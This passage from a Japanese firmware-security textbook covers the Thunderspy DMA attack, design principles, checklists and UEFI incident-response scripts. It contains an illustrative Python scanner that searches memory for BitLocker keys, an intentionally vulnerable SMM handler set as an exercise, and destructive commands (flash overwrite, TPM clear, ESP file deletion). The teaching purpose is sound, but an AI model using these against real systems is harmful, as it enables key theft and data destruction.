  EFI_STATUS                     Status;
  EFI_LOADED_IMAGE_PROTOCOL      *LoadedImage;
  VOID                           *ImageBase;
  UINTN                          ImageSize;
  UINT8                          ImageHash[32];

  // 1. ロードされたイメージ情報を取得
  Status = gBS->HandleProtocol(
    ImageHandle,
    &gEfiLoadedImageProtocolGuid,
    (VOID **)&LoadedImage
  );
  if (EFI_ERROR(Status)) {
    return Status;
  }

  ImageBase = LoadedImage->ImageBase;
  ImageSize = LoadedImage->ImageSize;

  // 2. SHA-256 ハッシュを計算
  Sha256HashAll(ImageBase, ImageSize, ImageHash);

  // 3. ホワイトリストと照合
  if (!IsHashInWhitelist(ImageHash)) {
    DEBUG((DEBUG_ERROR, "Unknown driver detected!\n"));
    DEBUG((DEBUG_ERROR, "SHA256: %02x%02x%02x%02x...\n",
           ImageHash[0], ImageHash[1], ImageHash[2], ImageHash[3]));

    // 4. ロードを拒否
    return EFI_SECURITY_VIOLATION;
  }

  return EFI_SUCCESS;
}
```

### 学んだ教訓

1. **ESP も監視対象**: EFI System Partition は見過ごされがちだが、攻撃者の格好の標的
2. **多層防御の重要性**: UEFI レベル + OS レベル + ネットワークレベルの検知が必要
3. **署名検証だけでは不十分**: カスタムドライバは署名なしで動作する可能性（ベンダーによる）
4. **フォレンジックツールの整備**: UEFI レベルの解析ツールが必須

---

## Case Study 5: Thunderspy (2020)

### 概要

**発生年**: 2020年
**影響範囲**: 2011-2020年製の Thunderbolt 搭載 PC
**脆弱性タイプ**: DMA Attack via Thunderbolt
**発見者**: Björn Ruytenberg (Eindhoven University of Technology)

### DMA 攻撃の原理



### 攻撃シナリオ

#### Thunderspy の攻撃手順

1. **物理アクセス**: ロックされたラップトップに Thunderbolt ポート経由で接続
2. **Security Level の改竄**: SPI Flash Controller Firmware を書き換え
3. **DMA 経由でメモリアクセス**: IOMMU を迂回して System RAM を読み書き
4. **認証情報の窃取**: BitLocker キー、ログインパスワードハッシュなどを取得

#### PoC コード

```python
# thunderspy_dma.py - DMA 経由でメモリをスキャン
import struct
import time

class ThunderboltDMA:
    def __init__(self, pci_device="/dev/thunderbolt0"):
        self.device = pci_device
        self.fd = None

    def open(self):
        """Thunderbolt DMA チャネルを開く"""
        # 実際の実装は Thunderbolt プロトコルに依存
        self.fd = open(self.device, 'r+b')

    def read_memory(self, physical_address, size):
        """物理メモリから読み取り"""
        # DMA Read コマンドを送信
        cmd = struct.pack('<BIQ',
                          0x01,  # READ_MEM コマンド
                          size,
                          physical_address)
        self.fd.write(cmd)

        # データを受信
        return self.fd.read(size)

    def write_memory(self, physical_address, data):
        """物理メモリに書き込み"""
        cmd = struct.pack('<BIQ',
                          0x02,  # WRITE_MEM コマンド
                          len(data),
                          physical_address)
        self.fd.write(cmd + data)

    def scan_for_bitlocker_key(self):
        """メモリ内の BitLocker FVEK を検索"""
        # BitLocker FVEK は特定のパターンで識別可能
        fvek_pattern = b'\x2c\x00\x00\x00\x01\x00\x00\x00'

        # 低位メモリをスキャン（0-4GB）
        for addr in range(0, 0x100000000, 0x1000):  # 4KB ずつ
            try:
                data = self.read_memory(addr, 0x1000)
                if fvek_pattern in data:
                    offset = data.find(fvek_pattern)
                    fvek = data[offset:offset+64]
                    print(f"[+] Potential BitLocker FVEK at 0x{addr+offset:x}")
                    print(f"    {fvek.hex()}")
            except:
                pass

        return None

# 攻撃を実行（要 root 権限）
dma = ThunderboltDMA()
dma.open()
dma.scan_for_bitlocker_key()
```

### 脆弱性の根本原因

| 問題 | 詳細 | 影響 |
|------|------|------|
| **Security Level 検証の不備** | Thunderbolt Controller Firmware が書き換え可能 | 認証を完全に迂回可能 |
| **IOMMU 未使用** | Intel VT-d が無効またはサポート外 | DMA 保護が機能しない |
| **Kernel DMA Protection 未対応** | Windows 10 1803 以前は未サポート | OS レベルの保護なし |

### 修正と緩和策

#### ハードウェア対策: Kernel DMA Protection

```c
// Windows Kernel DMA Protection の疑似コード
BOOLEAN
KdpValidateDmaDevice (
  IN PCI_DEVICE  *Device
  )
{
  // 1. デバイスが事前認証済みか確認
  if (!IsPciDevicePreAuthorized(Device)) {
    DEBUG((DEBUG_INFO, "DMA device not pre-authorized\n"));
    return FALSE;
  }

  // 2. IOMMU で保護された領域のみアクセス許可
  SetupIommuProtection(Device);

  // 3. ExitBootServices 後は新規デバイス拒否
  if (gExitBootServicesCalled) {
    DEBUG((DEBUG_WARN, "DMA device plugged after boot - rejected\n"));
    return FALSE;
  }

  return TRUE;
}
```

#### UEFI 設定での対策

```
# BIOS Setup での推奨設定
Thunderbolt Security Level: User Authorization (最低でも)
Intel VT-d: Enabled
Kernel DMA Protection: Enabled（Windows 10 1803+）
```

#### Linux での IOMMU 有効化

```bash
# /etc/default/grub に追加
GRUB_CMDLINE_LINUX="intel_iommu=on iommu=pt"

# 設定を更新
sudo update-grub
sudo reboot

# IOMMU が有効か確認
dmesg | grep -i iommu
# 出力例: DMAR: Intel(R) Virtualization Technology for Directed I/O
```

### 検証スクリプト

```bash
#!/bin/bash
# check_dma_protection.sh - DMA 保護状態の確認

echo "=== DMA Protection Status ==="

# 1. IOMMU の状態確認
if [ -d "/sys/class/iommu" ]; then
    echo "[+] IOMMU is enabled"
    ls /sys/class/iommu/
else
    echo "[-] IOMMU is NOT enabled - vulnerable to DMA attacks!"
fi

# 2. Thunderbolt Security Level 確認
if [ -d "/sys/bus/thunderbolt" ]; then
    for domain in /sys/bus/thunderbolt/devices/domain*; do
        if [ -f "$domain/security" ]; then
            level=$(cat "$domain/security")
            echo "[*] Thunderbolt Security Level: $level"

            if [ "$level" == "none" ] || [ "$level" == "dponly" ]; then
                echo "    [!] WARNING: Weak security level!"
            fi
        fi
    done
fi

# 3. Kernel DMA Protection 確認（Windows の場合）
if command -v powershell.exe &> /dev/null; then
    powershell.exe -Command "Get-CimInstance -Namespace root/Microsoft/Windows/DeviceGuard -ClassName Win32_DeviceGuard | Select -ExpandProperty VirtualizationBasedSecurityProperties"
fi

echo "=========================="
```

### 学んだ教訓

1. **物理アクセスの脅威を過小評価しない**: "Evil Maid" 攻撃は現実的な脅威
2. **IOMMU は必須**: DMA 可能なデバイスには必ず IOMMU で保護を
3. **Security Level の適切な設定**: Thunderbolt は便利だがセキュリティリスクも大きい
4. **ファームウェアの改竄検知**: Thunderbolt Controller Firmware の整合性検証が必要

---

## 攻撃パターンの分類と対策マトリクス

### 攻撃ベクトルの分類

| 攻撃タイプ | 攻撃対象 | 必要な権限 | 代表的事例 | 対策 |
|----------|---------|----------|----------|------|
| **SMM Exploitation** | SMM ハンドラの脆弱性 | OS 管理者 | ThinkPwn | SmmIsBufferOutsideSmram, SMM_BWP |
| **UEFI Rootkit** | SPI Flash | OS 管理者 | LoJax, MosaicRegressor | Boot Guard, WP# ピン |
| **Bootloader Vulnerability** | GRUB2/Shim | ESP 書き込み | BootHole | Secure Boot, dbx 更新 |
| **DMA Attack** | Thunderbolt/PCIe | 物理アクセス | Thunderspy | IOMMU, Kernel DMA Protection |
| **Supply Chain** | 製造/流通段階 | 内部犯行 | SuperMicro 疑惑 | 検査プロセス強化 |

### Defense in Depth 戦略



---

## セキュリティ設計原則の体系化

### 原則 1: 最小特権の原則 (Principle of Least Privilege)

**定義**: すべてのコンポーネントは必要最小限の権限のみで動作すべき

**適用例**:
```c
// 悪い例: すべてのメモリアクセスを許可
EFI_STATUS SmiHandler(VOID *Buffer) {
  CopyMem(AnyAddress, Buffer, AnySize);  // 危険！
}

// 良い例: ホワイトリストで制限
EFI_STATUS SecureSmiHandler(VOID *Buffer, UINTN Size) {
  if (!IsAddressInAllowedRange(Buffer)) {
    return EFI_SECURITY_VIOLATION;
  }
  if (!SmmIsBufferOutsideSmram(Buffer, Size)) {
    return EFI_SECURITY_VIOLATION;
  }
  // ...
}
```

### 原則 2: 信頼できる基盤 (Root of Trust)

**定義**: ハードウェアベースの変更不可能な信頼の起点を確立する

**実装**:
- **Intel**: Boot Guard ACM（CPU ROM に焼き込み）
- **AMD**: PSP Bootloader（PSP ROM に焼き込み）
- **ARM**: TrustZone Secure Boot

### 原則 3: 失敗時の安全性 (Fail-Safe Defaults)

**定義**: エラー時はより安全な状態に遷移する

```c
// Boot Guard の例
if (!VerifyIbbSignature()) {
  if (BootGuardProfile == VERIFIED_BOOT) {
    ShutdownSystem();  // 検証失敗時は起動を停止
  } else {
    ExtendPcr(FAILURE_MEASUREMENT);  // 記録して続行
  }
}
```

### 原則 4: 多層防御 (Defense in Depth)

**定義**: 単一の防御メカニズムに依存せず、複数の独立した防御層を設ける

| レイヤー | メカニズム | 迂回された場合の次の防御 |
|---------|----------|----------------------|
| **HW** | Boot Guard | SMM 保護 |
| **FW** | Secure Boot | TPM Measured Boot |
| **OS** | UEFI Runtime Protection | EDR/AV |
| **Network** | TLS | IDS/IPS |

### 原則 5: 最小限の共通メカニズム (Least Common Mechanism)

**定義**: 異なるセキュリティドメイン間でのリソース共有を最小化する

```c
// 悪い例: SMM と OS が同じバッファを共有
VOID *SharedBuffer = AllocatePool(SIZE);

// 良い例: SMM 内部でコピーを作成
VOID *SmmLocalBuffer = AllocatePool(SIZE);
CopyMem(SmmLocalBuffer, OsBuffer, SIZE);  // TOCTOU 対策
```

### 原則 6: 心理的受容性 (Psychological Acceptability)

**定義**: セキュリティメカニズムは使いやすくなければ回避される

**失敗例**: BootHole の dbx 更新が古いシステムを起動不能にし、多くのユーザーが Secure Boot を無効化

**改善策**: 段階的な移行期間、明確な通知、回復手順の提供

---

## 実践的チェックリスト

### 開発段階でのチェック

- [ ] すべての外部入力に対して境界値チェックを実施
- [ ] SMM ハンドラで SmmIsBufferOutsideSmram() を使用
- [ ] TOCTOU 攻撃を防ぐためローカルコピーを使用
- [ ] 固定サイズバッファの代わりに動的メモリ確保
- [ ] すべてのポインタを信頼しない（NULL チェック + 範囲チェック）
- [ ] 暗号化鍵をハードコードしない
- [ ] デバッグコードを本番ビルドから除外

### デプロイ段階でのチェック

- [ ] Boot Guard/PSP をプロビジョニング
- [ ] Secure Boot を有効化
- [ ] TPM を有効化し、PCR 測定を実施
- [ ] SPI Flash 書き込み保護（WP# ピン）を設定
- [ ] IOMMU を有効化
- [ ] Thunderbolt Security Level を "User Authorization" 以上に設定
- [ ] BIOS 更新プロセスを確立

### 運用段階でのチェック

```bash
#!/bin/bash
# security_audit.sh - 定期的なセキュリティチェック

# 1. Secure Boot 状態
mokutil --sb-state

# 2. TPM PCR 値のベースライン比較
tpm2_pcrread -o current_pcrs.bin
diff baseline_pcrs.bin current_pcrs.bin

# 3. SPI Flash 保護状態
sudo chipsec_main -m common.bios_wp

# 4. UEFI 変数の改竄チェック
sudo chipsec_main -m common.uefi.auth

# 5. SMM 保護状態
sudo chipsec_main -m common.smm

# 6. IOMMU 状態
dmesg | grep -i "DMAR:\|IOMMU"
```

---

## インシデントレスポンス手順

### Phase 1: 検出・トリアージ

```python
# incident_triage.py
import subprocess
import json

def triage_uefi_infection():
    """UEFI 感染の兆候を確認"""
    indicators = {}

    # 1. PCR 値の異常
    pcr_values = subprocess.check_output(['tpm2_pcrread', '-o', '/dev/stdout'])
    indicators['pcr_anomaly'] = check_pcr_against_baseline(pcr_values)

    # 2. ESP の不審なファイル
    indicators['esp_malware'] = scan_esp_partition()

    # 3. SPI Flash の整合性
    result = subprocess.run(['sudo', 'chipsec_main', '-m', 'tools.uefi.whitelist'],
                          capture_output=True, text=True)
    indicators['unknown_modules'] = 'FAILED' in result.stdout

    # 4. ブートログの異常
    indicators['boot_anomaly'] = check_boot_logs()

    # トリアージ結果
    severity = calculate_severity(indicators)

    return {
        'severity': severity,
        'indicators': indicators,
        'recommendation': get_recommendation(severity)
    }

# 実行
result = triage_uefi_infection()
print(json.dumps(result, indent=2))
```

### Phase 2: 封じ込め

```bash
# containment.sh - 感染拡大防止

# 1. ネットワークから隔離
sudo iptables -P INPUT DROP
sudo iptables -P OUTPUT DROP
sudo iptables -P FORWARD DROP

# 2. Thunderbolt ポートを無効化
echo 0 | sudo tee /sys/bus/thunderbolt/devices/*/authorized

# 3. SMM からの書き込みを防止（可能な場合）
sudo setpci -s 00:1f.0 0xDC.B=0x0A  # BIOS Control Register

# 4. システムをシャットダウン（オフライン解析用）
sudo shutdown -h now
```

### Phase 3: 根絶

```bash
# eradication.sh - マルウェア除去

# 1. SPI Flash を既知の良好なイメージで上書き
sudo flashrom -p internal -w known_good_bios.bin

# 2. ESP をクリーンアップ
sudo mount /boot/efi
sudo find /boot/efi -type f -name "*.exe" -delete
sudo find /boot/efi -type f -name "*.dll" -delete

# 3. UEFI 変数をリセット
sudo efibootmgr --delete-bootnum -b 0000  # 不審なブートエントリを削除

# 4. TPM をクリア
sudo tpm2_clear -c p  # Platform Hierarchy をクリア
```

### Phase 4: 復旧

1. **クリーンインストール**: OS を再インストール
2. **設定の強化**: Secure Boot, Boot Guard, IOMMU を有効化
3. **監視の強化**: TPM Remote Attestation を設定
4. **証拠保全**: フォレンジックイメージを保存

---

## 💻 演習

### 演習 1: 脆弱な SMM ハンドラの修正

以下のコードの脆弱性を特定し、修正してください。

```c
EFI_STATUS VulnerableSmiHandler(VOID *Buffer, UINTN Size) {
  UINT64 *Address = (UINT64 *)Buffer;
  UINT64 Value = *(Address + 1);

  *(UINT64 *)(UINTN)(*Address) = Value;
  return EFI_SUCCESS;
}
```

**ヒント**: ThinkPwn の攻撃パターンを参考にしてください。

### 演習 2: UEFI モジュールのフォレンジック

1. `/boot/efi` 配下のすべての `.efi` ファイルをリストアップ
2. 各ファイルの SHA-256 ハッシュを計算
3. ベンダー公式のハッシュと比較
4. 不一致があれば詳細を調査

```bash
# スクリプトを作成してください
```

### 演習 3: インシデント対応計画の作成

あなたの組織で LoJax 類似のマルウェアが発見されたと仮定し、以下を含むインシデント対応計画を作成してください：

1. 検出から24時間以内のアクションプラン
2. ステークホルダーへの通知プロセス
3. 証拠保全手順
4. 根絶・復旧手順
5. 再発防止策

---

## まとめ

本章では、**5つの重要なファームウェア攻撃事例**を詳細に分析し、そこから普遍的な教訓と設計原則を導き出しました。これらの事例は、ファームウェアセキュリティの異なる側面を示しており、技術的な脆弱性、組織的な対応の課題、エコシステム全体の連携の重要性を浮き彫りにしています。**ThinkPwn** は、SMM ハンドラの入力検証の欠如により、OS レベルの権限から Ring -2 への権限昇格を可能にし、すべての外部入力を厳格に検証する必要性を示しました。**LoJax** は、史上初の野生で発見された UEFI ルートキットであり、ソフトウェアだけの保護では不十分であり、ハードウェアベースの Root of Trust（Boot Guard、WP# ピン）が必要であることを教えました。**BootHole** は、GRUB2 の脆弱性により Secure Boot を完全にバイパスし、信頼チェーンは最も弱い部分で破綻すること、そして dbx 更新とエコシステム全体の連携が極めて重要であることを示しました。**MosaicRegressor** は、ESP（EFI System Partition）に常駐するマルウェアであり、ファームウェアだけでなく、ブートパーティションも攻撃対象として継続的に監視する必要性を明らかにしました。**Thunderspy** は、Thunderbolt の DMA 攻撃により、物理アクセスの脅威を再認識させ、IOMMU による DMA 保護の重要性を強調しました。

これらの攻撃事例から導かれる**セキュリティ設計の6原則**は、ファームウェア開発における普遍的な指針となります。まず、**最小特権の原則（Least Privilege）** では、各コンポーネントに必要最小限の権限のみを付与します。SMM は、必要な操作のみを許可し、任意のメモリアクセスを禁止します。次に、**信頼できる基盤（Trusted Foundation）** では、ハードウェアベースの Root of Trust を確立します。Boot Guard、PSP、TPM といったハードウェアセキュリティ機構を組み合わせ、ソフトウェアだけでは実現できない強固な基盤を構築します。さらに、**失敗時の安全性（Fail-Safe Defaults）** では、エラーが発生した場合、より安全な状態に遷移します。検証失敗時はシステムを停止し、不正なコードの実行を防ぎます。また、**多層防御（Defense in Depth）** では、複数の独立した防御層を配置します。Boot Guard → Secure Boot → Measured Boot → OS Security という階層的な保護により、1つの層が破られても、他の層が防御を継続します。**最小限の共通メカニズム（Economy of Mechanism）** では、セキュリティドメイン間の共有を最小化します。SMRAM は OS から完全に隔離し、ESP は読み取り専用にマウントし、攻撃面を縮小します。最後に、**心理的受容性（Psychological Acceptability）** では、使いやすいセキュリティを設計します。複雑すぎるセキュリティ機構は、ユーザーによって無効化されるため、適切なバランスが必要です。

ファームウェアセキュリティを実装する際の**実践的なチェックリスト**は、開発から運用まで、各段階で遵守すべき項目を明確にします。**開発時**には、すべての外部入力（OS からの CommBuffer、UEFI 変数、ネットワークデータ）を検証し、SMRAM 内外のチェックを行います。TOCTOU 攻撃を防ぐため、検証後のデータを SMRAM 内のローカル変数にコピーし、ローカルコピーを使用します。固定サイズバッファを避け、動的なメモリ割り当てとサイズチェックを使用し、バッファオーバーフローを防ぎます。デバッグコードやテスト用の機能は、本番ビルドから完全に除外し、攻撃面を縮小します。**デプロイ時**には、Boot Guard または PSP をプロビジョニングし、OTP Fuse に公開鍵ハッシュを書き込み、ハードウェアベースの検証を有効化します。Secure Boot と TPM を有効化し、PK/KEK/db/dbx を適切に設定し、fTPM または dTPM を使用します。SPI Flash の物理保護として、WP# ピンを有効化し、ケースロックや改ざん検知シールを使用します。IOMMU（VT-d/AMD-Vi）を有効化し、DMA Protection Range を設定し、Thunderbolt ポートへの DMA アクセスを制限します。**運用時**には、TPM PCR 値を定期的にチェックし、Remote Attestation を使用して、システム構成の変更を検出します。chipsec による自動スキャンを定期実行し、SMRAM ロック、BIOS 保護、Flash 保護の状態を監視します。ESP（EFI System Partition）の定期的な検査として、ホワイトリストとの比較、SHA-256 ハッシュの検証、不明なファイルの調査を行います。インシデント対応計画を準備し、検出から24時間以内のアクションプラン、証拠保全手順、根絶・復旧手順を文書化します。

### 補足表：攻撃事例から学んだ重要な教訓

| 事例 | 主な教訓 | 技術的対策 |
|------|---------|----------|
| **ThinkPwn** | SMM ハンドラの入力検証は絶対に必要 | SmmIsBufferOutsideSmram() |
| **LoJax** | ソフトウェアだけの保護は不十分 | Boot Guard + WP# ピン |
| **BootHole** | 信頼チェーンは最も弱い部分で破綻 | dbx 更新 + エコシステム連携 |
| **MosaicRegressor** | ESP も攻撃対象として監視が必要 | ホワイトリスト + 継続監視 |
| **Thunderspy** | 物理アクセスの脅威を過小評価しない | IOMMU + DMA Protection |

---

次章では、Part IV 全体のまとめとして、セキュリティ機能の統合的な設計方法と、今後の展望について解説します。

📚 **参考資料**
- [ThinkPwn Whitepaper](https://github.com/Cr4sh/ThinkPwn)
- [ESET LoJax Analysis](https://www.welivesecurity.com/2018/09/27/lojax-first-uefi-rootkit-found-wild/)
- [Eclypsium BootHole Report](https://eclypsium.com/2020/07/29/theres-a-hole-in-the-boot/)
- [Kaspersky MosaicRegressor](https://securelist.com/mosaicregressor/98849/)
- [Thunderspy](https://thunderspy.io/)
- [NIST SP 800-147: BIOS Protection Guidelines](https://csrc.nist.gov/publications/detail/sp/800-147/final)
- [NIST SP 800-193: Platform Firmware Resiliency Guidelines](https://csrc.nist.gov/publications/detail/sp/800-193/final)
